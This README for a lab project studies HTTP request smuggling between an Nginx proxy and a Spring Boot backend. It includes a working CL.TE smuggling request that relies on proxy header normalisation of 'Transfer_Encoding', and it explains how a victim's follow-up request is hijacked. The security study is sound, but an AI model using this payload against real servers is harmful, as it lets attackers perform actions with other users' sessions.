 # Http Smuggling Demo Project (Nginx + Spring)
### This project is intend to
- To study the behaviours of Http Smuggling Attack on a FE + BE application combination.
- To understand what are the pre-conditions of a system setup that potentially exploit-able

### Project Structure
#### http-smuggler-application
- acts as Back End Service. typical spring boot application
- simple rest API to simulate the scenario of
    - login
    - users/me
    - users?follow=${name}
#### nginx
- acts as Front End Service (LB|Proxy|ReversedProxy)
- uses nginx lua module to perform `http headers normalization` that converts invalid headers that consist of `_` to `-`
- It is almost impossible to perform `http headers normalization` on sensitive/builtin headers with nginx lua module, hacks have been done in order to achieve it
#### http-smuggler-gateway
- tries to reproduce using a Spring Gateway + Spring Boot approach
- It is almost impossible to realise where
    - Spring Gateway will throw error where filter headers have both CL and TE [link](https://github.com/spring-cloud/spring-cloud-gateway/blob/59cba504509ee807ab5c6be01ba46c20b034cd8f/spring-cloud-gateway-server/src/main/java/org/springframework/cloud/gateway/filter/NettyRoutingFilter.java#L168-L175).
    - Requires a keep alive socket connection between the two (yet to be POCed)

### Demo Flow
To simulate user impersonate attack using Http Smuggling Attack. Execute the request payload in the burp suite application (repeater)

- Two demo users, `bob | pwd` and `alice | pwd`
- `alice` login to the application, and be return with a sessionId
```
POST /v1/login HTTP/1.1
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=alice&password=pwd
```

- Uses the sessionId, alice retrieves her information using `v1/users/me` api
```
GET /v1/users/me HTTP/1.1
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

- bob performs CLTE Http Smuggling Attack from the login API
```
POST /v1/login HTTP/1.1
Content-Type: application/json
Accept: */*
Cache-Control: no-cache
Host: localhost
Connection: keep-alive
Content-Length: 89
Transfer_Encoding: chunked

23
{"username":"bob","password":"pwd"}
0

PUT /v1/users/follow?user=bob HTTP/1.1
X:X
```
- On the next `users/me` query, alice's request will be smuggled and resulting in following bob `PUT /v1/users/follow?user=bob`, result can be observed from the response payload.

### Explanation
- The invalid header `Transfer_Encoding` will be normalised at the proxy layer to a valid `Transfer-Encoding` header when it passes to application layer
- As `Transfer-Encoding` has higher precedence than `Content-Length`, a desync is happened where FE uses `Content-Length` but BE uses `Transfer-Encoding`
- As the `Transfer-Encoding`'s payload is much shorter, the application layer will think the payload ends at the 0, and will threat the follow `PUT /v1 ***` request as the next request
- when the victim request comes in (alice), the application will process the request as the below, and results in performing `/v1/users/follow?user=bob` instead of `/v1/users/me`
```
PUT /v1/users/follow?user=bob HTTP/1.1
X:XGET /v1/users/me HTTP/1.1 // silence the request URL part
Authorization: ${sessionId}
Accept: */*
Cache-Control: no-cache
Host: localhost
Accept-Encoding: gzip, deflate
```

### Experiment Findings
Two conditions to meet for a success Http smuggling
- Make use of the variant of CL & TE headers to trick payload mismatch between FE and BE
- The connection between FE & BE must be `Http 1.1 with persistent connection | connection reuse | keepalived`  where multiple HTTP requests are sent on a single TCP connection
- To configure Nginx to perform `http persistent connection`
```
upstream application {
  server localhost:9090;
  keepalive 16;
}

proxy_set_header Connection "";
proxy_http_version 1.1;

```

### Additional Dev Notes
#### Setup Burp Suite on Firefox
- Burp Suite is suitable to send HTTP request with Transfer-Encoding = chunked
- by default, localhost | 127.0.0.1 won't forward traffic to proxy server
- to enable it, go  to tab `about:config` then look for `network.proxy.allow_hijacking_localhost`. [(reference)](https://security.stackexchange.com/a/211555/224446)
